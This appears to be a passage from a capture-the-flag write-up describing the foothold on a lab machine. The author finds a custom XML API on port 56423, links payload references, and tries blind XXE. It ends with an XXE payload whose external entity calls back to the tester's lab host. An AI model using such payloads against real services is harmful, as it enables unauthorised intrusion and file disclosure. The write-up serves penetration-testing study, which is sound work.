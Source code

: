 ## Foothold
- Nothing interesting
  - We have a port `API` on port `56423`
    - It looks like it's a custom `API`
  - We can play around with different payloads

![](./images/6.png)

- Was stuck here for a while
  - After receiving a hint about `xml`, I tried a `xml` payloads
  - Sending `Ping` now, we receive `Ping` back

![](./images/7.png)

- So let's try `XXE`
  - We could try one of the payloads
    - https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
    - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#blind-xxe
  - We don't receive any output, so we should try `blind xxe`
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.10.16.9/anything"> %xxe;]>
```
